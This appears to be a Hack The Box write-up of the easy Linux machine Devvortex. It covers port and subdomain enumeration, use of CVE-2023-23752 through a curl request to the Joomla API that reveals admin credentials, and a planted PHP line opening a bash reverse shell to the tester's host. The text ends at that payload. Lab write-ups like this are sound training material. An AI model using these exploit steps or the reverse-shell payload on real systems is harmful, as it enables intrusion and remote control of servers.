



# <center>Devvortex</center>
<p align="center"></p>

Hello everyone. Let's solve an easy labeled linux based HTB machine named Devvortex.

## Initial Step

- Download your open vpn configuration file and connect to htb vpn.
    - ```bash
        sudo openvpn <configuratio_file_name>
      ```
- Join the machine to get an IP. (in my case it is 10.10.11.242).
- tasks given:
    - submit user flag (32 hex characters).
    - submit root flag (32 hex characters).

Now we are good to go. we can access the website through our browser. Now let's dive into our actual hacking stuffs 😉. (Disclaimer: By "hacking", I meant <strong><i>ETHICAL</strong> Hacking</i>)

<hr>

## Scanning and Enumeration

- performing agressive nmap scan on the given ip. (-A stands for agressive in below command)

```bash
    nmap -A -T4 10.10.11.242

    # Nmap 7.94SVN scan initiated Mon Apr  1 15:14:52 2024 as: nmap -A -T4 -oN nmap_on_10.10.11.242 10.10.11.242
    Nmap scan report for 10.10.11.242
    Host is up (0.27s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
    |   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
    |_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://devvortex.htb/
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Mon Apr  1 15:15:43 2024 -- 1 IP address (1 host up) scanned in 51.63 seconds

```
From the scan we can see normal port 80 -> http, it's domain `http://devvortex.htb` and 443 -> SSH, and  are open. Also it says, ngnix https server is running on port 80, but right now it is not accessible through the ip address. So let's add the ip and domain name in our /etc/hosts file.


Navigating to the domain, we can see a simple static website, and nothing much of an interest. So I moved to my next step of enumerating directories and subdomains.

- <strong> Enumerating directories for `devvortex.htb` using <u>dirsearch</u> tool</strong>
    - ```bash
        dirsearch -u http://devvortex.htb

        # Dirsearch started Mon Apr  1 15:48:49 2024 as: /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u http://devvortex.htb

        301   178B   http://devvortex.htb/js    -> REDIRECTS TO: http://devvortex.htb/js/
        200     7KB  http://devvortex.htb/about.html
        200     9KB  http://devvortex.htb/contact.html
        301   178B   http://devvortex.htb/css    -> REDIRECTS TO: http://devvortex.htb/css/
        403   564B   http://devvortex.htb/images/
        301   178B   http://devvortex.htb/images    -> REDIRECTS TO: http://devvortex.htb/images/
        403   564B   http://devvortex.htb/js/

        ```
    - So just some normal pages of static website, nothing interesting. Let's scan for some subdomains as well.

- <strong> Enumerating subdomains using <u>gobuster</u> tool</strong>
    - ```bash
        gobuster dns -d devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 50


        ===============================================================
        Gobuster v3.6
        by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
        ===============================================================
        [+] Domain:     devvortex.htb
        [+] Threads:    50
        [+] Timeout:    1s
        [+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
        ===============================================================
        Starting gobuster in DNS enumeration mode
        ===============================================================
        Found: dev.devvortex.htb
        Progress: 19966 / 19967 (99.99%)
        ===============================================================
        Finished
        ===============================================================
        ```

- So, we just found a complete domain. Let's add this as well in out /etc/hosts file and examine the website.
- while navigating through the website manually, I got a robots.txt file.


- /administrator immediately caught my eyes, and it has a joomla login page. I researched about joomla and found these features from [wikipedia](https://en.wikipedia.org/wiki/Joomla).
    - Joomla is a framework (CMS)
    - written in PHP
    - uses Object-Oriented Programming technique
    - stores data in Structured Query Language (MySQL) database.

    So, I am pretty sure that my knowledge of PHP and MySQL may come in handy any time 😉.

- tried logging in fuzzing different default credentials for a moment, but it was useless. So i googled the ways to bypass the joomla authentication and luckily I came through [CVE-2023-23752](https://vulncheck.com/blog/joomla-for-rce) in vulncheck.com. 

- following the direction I tried exploiting the vulnerability and got the credentials.

    - ```curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true```

    - 

    - user: lewis
    - password: P4ntherg0t1n5r3c0n##

- Using the credentials I got logged in.
    - 
Now my first intension was to get some place where I can inject some payloads to get get remode code execution(RCE). On navigating through different sections in the page, I came to a login.php file in system -> administrator templates -> atum files -> index.php. That php file could be used to run my payload and get a reverse shell. So I included a bash -i reverse shell command in the login.php file using system command and fired up my netcat listener on port 1234.

`system('bash -c "bash -i >& /dev/tcp/10.10.14.151/1234 0>&1"');`




    